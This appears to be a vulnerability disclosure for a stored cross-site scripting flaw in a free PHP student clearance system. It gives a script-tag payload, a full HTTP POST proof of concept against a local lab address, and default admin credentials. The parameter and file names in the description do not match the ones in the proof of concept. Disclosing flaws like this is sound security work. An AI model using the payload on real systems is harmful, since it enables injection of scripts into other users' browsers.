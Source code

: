 ## Vulnerability Description

[Web-Based Student Clearance System in PHP Free Source Code v1.0](https://www.sourcecodester.com/php/15627/web-based-student-clearance-system.html) was discovered to contain a cross-site scripting (XSS) vulnerability via the componentedit-admin.php. It is an open source project from [https://www.sourcecodester.com/](https://www.sourcecodester.com/). This vulnerability allows attackers to execute arbitrary web scripts or HTML via a crafted payload injected into the shortName parameter.

1. BUG_Author: Tr0e
  
2. vendors: [Web-Based Student Clearance System in PHP Free Source Code](https://www.sourcecodester.com/php/15627/web-based-student-clearance-system.html);
  
3. The program is built using the xmapp/v3.3.0 and PHP/8.1.10 version;
  
4. Vulnerability location: /student_clearance_system_Aurthur_Javis/admin/edit-admin.php
  

# Vulnerability Verification

[+] Payload:

```java
"><script>alert(1)</script>
```

POC：

```js
POST http://192.168.0.111:91/student_clearance_system_Aurthur_Javis/admin/edit-admin.php?id=4 HTTP/1.1
Host: 192.168.0.111:91
Content-Length: 486
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.0.111:91
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryZuvZCgQkb37Jezph
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.0.111:91/student_clearance_system_Aurthur_Javis/admin/edit-admin.php?id=4
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=e8pdd3dv0b39d1h4vcj99q01cq
Connection: close

------WebKitFormBoundaryZuvZCgQkb37Jezph
Content-Disposition: form-data; name="txtfullname"

EKE, EMMANUEL EFA-EVAL
------WebKitFormBoundaryZuvZCgQkb37Jezph
Content-Disposition: form-data; name="txtemail"

"><script>alert(1)</script>
------WebKitFormBoundaryZuvZCgQkb37Jezph
Content-Disposition: form-data; name="cmddesignation"

Admin
------WebKitFormBoundaryZuvZCgQkb37Jezph
Content-Disposition: form-data; name="btnedit"


------WebKitFormBoundaryZuvZCgQkb37Jezph--
```

## How to verify

Build the vulnerability environment according to the steps provided by the source code author (Log in with the default account and password:admin/admin123) and execute the Payload provided above.

The vulnerability lies in the "User Manager - User Record - Action - Edit" function, you shuold inserts Payload when editing administrator user information，as shown in the following figure：
![image](https://user-images.githubusercontent.com/42080954/194344519-66e70a0a-fbb2-4567-b77f-240657e24f7b.png)
![image](https://user-images.githubusercontent.com/42080954/194344726-cd269fc9-3bf7-4c30-a10c-addd5bff43c0.png)
